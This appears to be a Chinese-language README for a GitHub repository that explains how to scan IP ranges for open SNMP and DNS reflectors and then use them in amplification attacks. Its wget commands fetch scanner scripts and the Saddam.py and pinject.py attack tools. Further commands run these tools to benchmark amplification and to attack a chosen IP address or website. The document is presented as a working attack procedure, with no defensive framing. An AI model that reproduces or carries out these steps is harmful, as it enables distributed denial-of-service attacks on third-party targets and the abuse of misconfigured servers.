 # 使用說明
snmp漏洞主機掃瞄

下載腳本

wget https://raw.githubusercontent.com/wartw98/test/master/snmpscan

chmod +x snmpscan

使用腳本
./snmpscan 開始ip 結束ip 儲存檔案名稱 數值(建議10~100之間) 10

DNS漏洞主機掃瞄

下載腳本

wget https://raw.githubusercontent.com/wartw98/test/master/dnsscan

chmod +x dnsscan

使用腳本
./dnsscan 開始ip 結束ip 儲存檔案名稱 數值(建議10~100之間) 10

攻擊腳本下載

wget https://raw.githubusercontent.com/OffensivePython/Saddam/master/Saddam.py

wget https://raw.githubusercontent.com/OffensivePython/Pinject/master/pinject.py

攻擊腳本使用

測試snmp放大倍數

python Saddam.py benchmark -s 掃瞄後的檔案

使用snmp攻擊

python Saddam.py 攻擊ip或是網址 -s 掃瞄後的檔案

測試DNS攻擊

python Saddam.py benchmark -d 掃瞄後的檔案|測試網址

使用DNS攻擊

python Saddam.py -d 掃瞄後的檔案|攻擊網址
